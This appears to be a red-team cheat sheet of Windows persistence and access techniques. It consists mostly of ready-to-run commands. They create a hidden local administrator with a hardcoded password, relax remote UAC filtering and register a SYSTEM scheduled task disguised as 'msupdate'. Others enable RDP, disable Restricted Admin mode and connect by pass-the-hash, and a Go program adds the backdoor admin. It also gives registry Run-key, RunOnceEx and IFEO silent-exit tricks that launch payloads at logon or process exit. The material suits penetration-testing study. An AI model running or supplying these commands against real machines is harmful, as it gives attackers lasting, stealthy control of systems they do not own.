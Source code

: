 # Windows

### Create new user

```powershell
net user mylocaladmin p@ssw0rd! /add /expires:never
net localgroup administrators mylocaladmin /add
```

Create user **mylocaladmin** with password **p@ssw0rd!** and add it to **administrators** group.



Change registry settings to allow local administrator accounts to perform administrative tasks remotely without restrictions

```powershell
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\system /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
```



### Create service

_Make a service, with autostart. Before need prepare special payload, that is a service binary._&#x20;

```
sc.exe create "monitexp" binPath= "C:\PathToServiceBinary" type= own start= auto
```

_Then start service_

```
Start-Service -Name "monitexp"
```

### Background jobs

```powershell
$job = Start-Job { c:/ProgramData/file.exe -args }
```

_Receive output_

```powershell
Receive-Job -Job $job -Keep
```

### Scheduled task

#### schtasks.exe

_Task create:_

```
schtasks /create /tn msupdate /tr "powershell -w h calc.exe" /sc MINUTE /mo 5 /f /ru SYSTEM
```

Task info

```
schtasks /query /tn msupdate /v /fo list
```

Force the task to star&#x74;_:_

```
schtasks /run /tn msupdate /i
```

_Delete task:_

```
schtasks /delete /tn msupdate /f
```



### Provide RDP access

#### Turn on RDP

```powershell
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
```

#### Bypass Restricted Admin Mode&#x20;

```powershell
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

#### Connect

```powershell
xfreerdp /v:172.16.222.254 /u:username /pth:<NT_HASH> /dynamic-resolution +clipboard
```

### Go based binary to create local admin

```go
package main

import (
	"fmt"
	"log"
	"os/exec"
)

func main() {
	addUserCmd := "net user mylocaladmin p@ssw0rd! /add /expires:never"
	addToAdminGroupCmd := "net localgroup administrators mylocaladmin /add"

	err := executeCommand(addUserCmd)
	if err != nil {
		log.Fatal(err)
	}

	err = executeCommand(addToAdminGroupCmd)
	if err != nil {
		log.Fatal(err)
	}

}

func executeCommand(command string) error {
	cmd := exec.Command("cmd", "/C", command)

	output, err := cmd.CombinedOutput()
	if err != nil {
		return fmt.Errorf("err: %s\noutput : %s", err, output)
	}
	return nil
}

```

### Registry

{% embed url="https://r4bb1t.medium.com/windows-persistence-registry-run-keys-e9acb20c4a7d" %}

#### What are Run keys? <a href="#id-0908" id="id-0908"></a>

There are two different types of run keys: Those that get run once and those that get run every time the user logs in.

The following key get run everytime a specific user logs in. You will have to specify the SID of the user:

```
HKEY_USERS\<sid>\Software\Microsoft\Windows\CurrentVersion\Run\
```

The following registry key runs every time any user logs into the machine:

```
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run\
```

The run once keys are only executed once. If your malware uses these keys to persist, then it should contain a function to add this key every time it gets executed.

#### Command Prompt / CMD <a href="#id-2c89" id="id-2c89"></a>

With `reg add KEY_NAME /V VALUE_NAME /d DATA /f` you can add a new key.

* `KEY_NAME` should be the registry key name, e.g. “run once key”.
* `VALUE_NAME` should be the name of the entry.
* `DATA` should be the data of the entry, for example the path to your malicious executable.

#### Code <a href="#d9e5" id="d9e5"></a>

Of course you can also implement the creation of a registry key in your code. In C# you can do that with the following code:

```csharp
Microsoft.Win32.RegistryKey key; 
key = Microsoft.Win32.Registry.CurrentUser.CreateSubKey("My_Key"); key.SetValue("My_Key", "Test"); 
key.Close();
```

#### Registry run keys

{% embed url="https://pentestlab.blog/2019/10/01/persistence-registry-run-keys/" %}

**HKCU**

```powershell
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v Pentestlab /t REG_SZ /d "C:\Users\pentestlab\pentestlab.exe"
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce" /v Pentestlab /t REG_SZ /d "C:\Users\pentestlab\pentestlab.exe"
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServices" /v Pentestlab /t REG_SZ /d "C:\Users\pentestlab\pentestlab.exe"
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce" /v Pentestlab /t REG_SZ /d "C:\Users\pentestlab\pentestlab.exe"
```

**HKLM**

```powershell
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run" /v Pentestlab /t REG_SZ /d "C:\tmp\pentestlab.exe"
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce" /v Pentestlab /t REG_SZ /d "C:\tmp\pentestlab.exe"
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices" /v Pentestlab /t REG_SZ /d "C:\tmp\pentestlab.exe"
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce" /v Pentestlab /t REG_SZ /d "C:\tmp\pentestlab.exe"
```

* `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`
* `HKLM\Software\Microsoft\Windows\CurrentVersion\Run`

DIfference: `HKCU` → for current user only, `HKLM` → for all



there are two more registry locations that could allow red teams to achieve persistence by executing either an arbitrary payload or a DLL. These will be executed during logon and require admin level privileges.

```powershell
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001" /v Pentestlab /t REG_SZ /d "C:\tmp\pentestlab.exe"
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001\Depend" /v Pentestlab /t REG_SZ /d "C:\tmp\pentestlab.dll"
```

#### Image File Execution Options (IFEO)

{% embed url="https://pentestlab.blog/tag/ifeo/" %}

```powershell
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v GlobalFlag /t REG_DWORD /d 512
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v ReportingMode /t REG_DWORD /d 1
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v MonitorProcess /d "C:\temp\pentestlab.exe"
```

* The hexadecimal value **0x200** in the “GlobalFlag” registry key enables the silent exit monitoring for the notepad process.
* The ReportingMode registry key enables the Windows Error Reporting process (WerFault.exe) which will be the parent process of the “**MonitorProcess**” pentestlab.exe.
* When the notepad process is killed (user has closed the notepad application) the payload will be executed and the communication will establish with the command and control.
